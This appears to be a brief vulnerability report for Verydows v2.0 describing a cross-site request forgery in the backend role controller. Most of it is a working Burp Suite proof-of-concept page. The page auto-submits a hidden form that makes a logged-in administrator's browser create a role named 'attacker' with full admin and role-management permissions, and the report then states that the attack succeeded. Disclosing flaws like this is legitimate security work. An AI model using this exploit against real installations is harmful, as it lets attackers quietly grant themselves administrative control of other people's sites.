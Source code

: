 target:https://gitee.com/cigery/verydows

version:v2.0

Verydows v2.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /protected/controller/backend/role_controller.php




create poc



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/index.php?m=backend&c=role&a=add&step=submit" method="POST">
      <input type="hidden" name="role&#95;name" value="attacker" />
      <input type="hidden" name="role&#95;desc" value="" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;delete" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

successed



